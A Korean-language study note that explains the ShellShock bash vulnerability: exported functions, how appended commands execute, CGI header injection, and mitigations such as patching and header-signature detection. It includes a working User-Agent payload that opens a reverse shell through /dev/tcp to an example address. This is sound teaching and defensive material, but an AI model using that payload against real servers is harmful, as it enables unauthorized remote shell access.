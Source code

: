 # GNU Bash 취약점(ShellShock)
* 2014년 9월 스테판 챠젤라스에 의해 최초 발견된 취약점으로 "CVE-2014-6271(GNU Bash 원격 명령 실행 취약점)" 취약점 범호가 부여되었으며 OpenSSL 하트블리드 취약점 이후 취약점에 이름을 짓는 유행에 따라 쉘쇼크(ShellShock)라 명명되었다. 
* 인터넷을 통해 간단한 명령만으로 시스템을 장악할 수 있는 심각성 때문에 미국국립표준기술연구소(NIST)에서는 쉘쇼크(ShellShock) 취약점 등급(CVSS)을 2014년 4월에 발표된 하트블리드 취약점(5점)보다 높은 최고 점수인 10점으로 산정하여 발표했다. 
* 최초 취약점 공개 이후 추가적인 보안 취약점이 지속적으로 발견됨.

## Bash 이해하기 Shell 변수 선언하기
### 지역변수: 선언한 쉘 내에서만 사용 가능한 변수
* `변수명=변수값` 형식으로 선언, 변수값을 참조하고자 할 경우에는 "$변수명" 형식을 사용
* `echo $$`는 현재 프로세스의 pid를 확인하는 구문
* bash 명령을 통해 자식 bash 프로세스 생성 후 부모 프로세스에 선언된 지역변수 참조 불가
* `set` 명령은 모든(지역, 환경) 변수 및 함수 목록을 반환해준다. `unset 변수명`을 통해 선언된 변수를 제거할 수 있다. 
* `env` 명령은 환경변수 및 함수 목록을 반환해준다. 따라서 지역변수로 선언한 var변수는 존재하지 않는다. 
```bash
var='local'
echo $var
> local

bash
echo $$
>1425881
ps -ef |grep bash | grep -v grep


echo $var


set |grep ^var

env |grep ^var

```

### 환경변수: 선언한 쉘뿐만이 아니라 자식 쉘에서도 사용 가능한 변수
* `export 변수명=변수값` 형식으로 선언, 일반적으로 환경변수명은 대문자 선언
* 환경변수는 자식 프로세스에서 참조 가능하므로 bash 명령을 통해 자식 bash 프로세스 생성 후 환경변수 참조
* `env` 명령을 통해 VAR 변수가 출력되면  환경변수임을 확인할 수 있음

```
export VAR='Environment'
echo $VAR

bash
echo $VAR


set | grep ^VAR
> VAR=Environment
env | grep ^VAR
> VAR=Environment
```


## Bash 이해하기 Shell 함수 선언하기
### 함수 선언
* 함수 선언 시 선언한 쉘 내에서만 호출 가능
* 함수를 환경변수에 설정하여 자식 bash 프로세스에서 사용 가능하도록 할 수 있다. 
```
export fn='() { echo "Environment function";}'

env | grep ^fn
> fn=() { echo "Environment function";}
```

* `export` 명령을 이용하여 함수를 환경변수에 문자열로 설정, 자식 bash 프로세스에서 사용가능
* `env` 명령을 통해 환경변수에 함수 문자열이 포함되어 있는 것을 확인
* 자식 프로세스는 상속받은 환경변수 중 함수 선언 문자열 "() {"이 변수 값에 설정되어 있으면 이를 함수로 선언한다. 

### Bash Shell 함수의 선언 기능 취약점
* 취약한 버전의 bash는 환경변수의 함수 선언문 뒤에 임의의 명령어를 삽입할 경우 환경변수에 설정된 함수 선언 시 함수 선언의 끝을 인지하지 못하고 삽입한 명령어까지 실행하는 취약점이 존재한다. 이것이 최초 발견된 bash 취약점(ShellShock)이다. 

```
export fn='() { echo "Environment function";};echo "command"'

env | grep ^fn
> fn=() { echo "Environment function";};echo "command"

bash
> command
```

* 위 예를 살펴보면 환경변수에 함수 선언문 문자열을 설정하면서 세미콜론(;) 기호화 함께 echo `command` 명령어를 추가하고 있다. 자식 bash 프로세스가 시작되면서 해당 환경변수의 함수 선언 시 echo 명령이 실행되는 취약점을 보여주고 있다. 

### GNU Bash 취약점(ShellShock)
* 취약점이 발생하는 부분은 bash가 제공하는 함수 선언기능이다. "() {"로 시작하는 함수 선언 문자열을 환경변수에 저장하면 동일한 이름을 가지는 함수로 선언된다. 문제는 함수 선언문 끝에 임의의 명령어를 추가로 삽입할 경우 bash가 함수문에서 처리를 멈추지 않고 추가로 삽입한 명령어를 계속 실행하기 때문에 발생한다. 

## CGI를 이용한 Bash 취약점 공격 유형

### 공격원리
* CGI(Common Gateway Interface): 웹서버에 요청된 페이지를 응용 프로그램에 전달하고 처리하기 위한 인터페이스
* 쉘쇼크(ShellShock) 취약점에 의해 영향을 받는 프로그램들 중 가장 대표적인 것이 CGI이다. CGI는 User-Agent와 같은 요청헤더정보를 쉘의 환경변수에 저장하는데, 공격자가 헤더정보에 함수와 명령어를 추가하여 전송하면 해당 명령어가 실행되는 취약점이 발생한다. 

## 리버스 쉘 연결 유형
### "/dev/tcp" 특수파일을 이용한 리버스 쉘 연결
```
USER-Agent:(){:;}; /bin/bash > /dev/tcp/10.10.10.10/8081 0<&1
```

* 공격자는 User-Agent 헤더필드에 함수문(`() { :; }`)과 명령문(`"/bin/bash > /dev/tcp/10.10.10.10/8081 0<&1"`)을 삽입하여 해당 명령문이 실행되도록 하고 있다. 


### "nc(netcat)" 프로그램을 이용한 리버스 쉘 연결


### 악성 코드 다운로드 유형

### 웹쉘 생성 유형

## 대응방안
* 취약한 버전의 Bash를 사용하고 있는 경우 최신버전으로 업데이트한다. 
* CGI 서비스의 사용 유무를 확인하여 사용하지 않는 서비스 중지시키거나 CGI를 삭제한다. 
* 네트워크 보안 장비(IPS/IDS/웹방화벽) 단에서 공격 시그니처(탐지룰)를 등록하여 차단한다. 
  * http 헤더에 "() {" 가 있으면 이를 탐지해야함. 